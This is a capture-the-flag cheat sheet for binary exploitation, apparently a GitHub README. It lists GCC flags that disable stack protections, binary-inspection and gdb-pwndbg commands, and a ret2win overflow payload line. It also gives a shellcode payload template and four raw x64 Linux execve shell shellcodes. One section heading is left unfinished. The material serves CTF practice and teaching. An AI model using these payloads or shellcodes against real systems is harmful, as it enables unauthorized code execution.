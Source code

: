 # CTF Tools

## Binary Exploitation

### GCC flags
- `-fno-stack-protector` -> disable canary
- `-no-pie` -> no PIE
- `-m32` -> compiles in 32 bit (i386)
- `-z execstack` -> disable NX and stack is executable now

A nice way to use this is 
```bash
gcc file.c -o vuln -fno-stack-protector -z execstack -no-pie -m32
```

### tmux
- `tmux`
- `ctrl + %, v` -> vertical split
- `ctrl + %, <-/->` -> change to left of right screen

### Know your file
`checksec --file <filename>` or `checksec file=filename

`file <filename>`

`rabin2 -I <filename>`

### Tracing
Checks what the program's doing with the input
`ltrace` and `strace`(for remote servers)
`ltrace ./filename`

### Reading the functions inside
- `info functions`
- `rabin2 -i <filename>`
- `objdump -d ./chal | grep '<.*>:'`
- `objdump -D <filename> | grep <funcitonname>`
- `nm -u <filename>`

USER GENERATED FUNCTIONS:

```bash
rabin2 -qs <filename> | grep -ve imp -e ' 0 '
```

### Strings inside binary
```bash
rabin2 -z <filename>
```

### gdb-pwndbg
(much faster than loading ghidra and doing stuff from there)
- `file <filename>` -> to open the file
- `info functions` -> show all the function names along with their addresses. (you can use this with `objdump -D <filename> | grep <funcitonname>`, which is much better)
- `disassemble main` -> disassemble the main funciton
- `disassemble <functionname>` -> disassemble particular functions

- `cyclic <number>` -> useful for testing when the seg faults
- `r` -> runs the function
- `cyclic -l <EIP-data>` -> lookup the amount of the data that can be inputted where overflow won't occur in little endian
- `python2 -c 'print "A"*28 + "\x82\x91\x04\x08"' > payload` -> 28 is the eip data and then the other code.
- `./ret2win < payload` -> input payload into the file
- instead, you can just send using `run < payload` inside of gdb-pwndbg
- `break *addr` -> add a breakpoint at an addr
- `delete breakpoints` -> delete breakpoints

**IP/EIP/RIP** -> Data where you can go without seg fault (data that can be stored in the variable/line)
**IP/EIP/RIP** -> Stores the address of the next function that must be executed (overflow this)

### python2 (not python3)
```python
python2 -c 'code here'
```

### redare
`r2 filename`
`aa` -> analyze all flags
`afl` -> all functions list

### Overwriting Variables on the Stack
- Replace the

### Shellcodes (NX disabled)
usage:
```python
payload = shellcode + b"A" * (80 - len(shellcode)) + b"B"*8 + p64(int(buff_addr, 16))
```
8 bytes for skipping RBP
`x64` linux `23` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

`x64` linux `24` bytes:
```elixir
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

`x86_64` linux `22` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

`x86_64` linux `27` bytes:
```elixir
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```


### NX enabled
Try using ropper since it might be an ROP attack

